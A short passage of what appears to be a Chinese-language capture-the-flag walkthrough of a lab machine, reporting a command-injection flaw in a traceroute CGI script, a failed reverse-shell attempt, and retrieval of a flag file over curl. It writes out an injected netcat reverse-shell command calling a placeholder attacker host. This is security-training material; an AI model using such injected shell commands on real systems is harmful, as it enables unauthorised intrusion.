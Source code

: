 发现`/cgi-bin/tracertool.cgi`是命令注入漏洞

![image-20220908170557929](../../.gitbook/assets/image-20220908170557929.png)

启动一个监听器并尝试`; nc -n <kali-ip> <kali-port> -e /usr/bin/bash`。不幸的是，**没有shell反弹**！看起来某种防火墙，正在阻止出站连接。

查看`/var/www/html`目录，找到`passwords`目录

```
┌──(root㉿kali)-[/tmp]
└─# curl http://192.168.32.12/passwords/FLAG.txt
FLAG{Yeah d- just don't do it.} - 10 Points
```

![image-20220908171025487](../../.gitbook/assets/image-20220908171025487.png)
